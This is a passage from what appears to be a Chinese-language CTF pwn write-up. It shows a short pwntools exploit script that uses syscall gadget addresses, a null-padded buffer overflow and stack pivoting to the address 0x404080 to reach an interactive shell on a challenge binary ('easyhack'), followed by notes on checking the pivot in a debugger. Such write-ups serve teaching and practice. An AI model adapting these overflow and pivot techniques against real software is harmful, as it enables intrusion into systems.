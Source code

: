 ```plain
syscall2=0x40118A #syscall
syscall=0x401060  #syscall_plt
rax_15 = 0x401193
main = 0x401421

pl='aaaaaaaa'
sa('easyhack\n',pl)
sa('SUID?\n',b'\x00'*(0x2a)+p64(0x404080)+p64(0x401421))
s(b'\x00'*(0x2a)+p64(0x404080+0x2a)+p64(0x401421))

duan()
s(p64(0x404080+0x2a+0x10))  

itr()
```

首先我们先去测试一下迁移过去会执行到哪

[![](assets/1703640353-02969139b09b9af8feadb63f5a523f06.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231225191926-766ce00a-a317-1.png)  
pause的时候是这个状态，然后输入p64(0x404060+0x2a+0x10)后往下调试一下是这个状态

[![](assets/1703640353-3a11d8b551f686c5b276bf670a7b0e3e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231225191934-7b93f974-a317-1.png)  
之后就是去执行了
